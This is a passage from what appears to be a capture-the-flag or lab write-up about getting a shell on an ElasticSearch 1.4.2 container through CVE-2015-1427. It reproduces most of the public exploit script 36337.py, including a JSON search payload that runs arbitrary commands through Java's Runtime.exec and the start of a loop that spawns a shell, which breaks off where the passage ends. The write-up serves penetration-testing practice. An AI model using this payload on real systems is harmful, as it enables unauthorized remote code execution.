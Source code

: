 ![screenshot](/assets/img/safeharbor/elasticsearch_cve.PNG) 

## Container 3 - Shell

Version 1.4.2 of ElasticSearch is vulnerable to a remote code execution vulnerability documented in [CVE-2015-1427](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-1427). So any exploits that we find we should make sure they reference this specific CVE.

![screenshot](/assets/img/safeharbor/elasticsearch_exploits.PNG)

We have a few options. We can opt to use the metasploit module which is just fine, or we can try to do it with a standalone exploit. I'm going to choose 36337.py for this one, and remove lines 16-25 because the banner is rather...obnoxious. There are also some weird characters in the banner, so get rid of those for good measure. Let's read the source and get an understanding of how to use it:

```python
import json
import requests
import sys
import readline
readline.parse_and_bind('tab: complete')
readline.parse_and_bind('set editing-mode vi')
__version__ = "20150309.1"

def banner():
    print """ 
    Exploit for ElasticSearch , CVE-2015-1427   Version: %s 
    """ %(__version__)

def execute_command(target, command):
    payload = """{"size":1, "script_fields": {"lupin":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"%s\\").getText()"}}}""" %(command)
    try:
        url = "http://%s:9200/_search?pretty" %(target)
        r = requests.post(url=url, data=payload)
    except Exception, e:
        sys.exit("Exception Hit"+str(e))
    values = json.loads(r.text)
    fuckingjson = values['hits']['hits'][0]['fields']['lupin'][0]
    print fuckingjson.strip()


def exploit(target):
    print "{*} Spawning Shell on target... Do note, its only semi-interactive... Use it to drop a better payload or something"
    while True:
```